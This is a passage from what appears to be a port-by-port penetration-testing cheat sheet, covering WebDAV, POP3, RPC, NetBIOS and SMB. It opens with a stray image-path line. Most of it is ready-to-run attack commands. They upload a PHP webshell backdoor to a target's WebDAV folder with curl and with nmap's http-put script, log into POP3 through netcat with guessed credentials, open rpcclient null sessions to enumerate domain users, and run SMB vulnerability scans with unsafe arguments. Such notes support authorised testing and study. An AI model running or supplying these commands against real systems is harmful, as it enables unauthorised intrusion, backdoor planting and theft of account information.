 Method 2:
```
cp /usr/share/webshells/php/simple-backdoor.php bytef.php
curl -T 'bytef.php' 'http://ip/webdav/'
```

Method 3:
```
nmap -p 80 $ip_address –script http-put –script-args http-put.url=’/webdav/bytef.php’,http-put.file=’backdoor/bytef.php’
```

## Port 110(POP3) 
Found an user login information?
```
$ nc -vvv $target 110
USER test
PASS test

#list all mails
LIST 

#Retrive the mail
retr mail_number
```

## Port 111 (RPCINFO) 
Connect with Null session.
```
nmap -v -p 111 --script=nfs* $ip
rpcclient -U "" $target
rpcclient $> enumdomusers
rpcclient $> queryuser 0xrid_ID
```

## Port 137,138,139 
```
nmblookup -A <IP>
nbtscan <IP>/30
sudo nmap -sU -sV -T4 --script nbstat.nse -p137,138,139 -Pn -n <IP>
```

## Port 445(SMB) 
There is a big chance getting sensitive information with SMB!

Enumerating SMB
```
#Enumerate
nmap -v -p 139,445 --script=smb-os-discovery smb-ls smb-enum-users smbenum-shares smb-enum-sessions smb-system-info $ip

#Scan for Vulnerability
nmap -v -p 139,445 --script=smb-vuln-* --script-args=unsafe= $ip

#Other tools
enum4linux -a $target
smbmap -h $target
smbclient -L -N //$target 
smbclient -L -U username //$ip
```
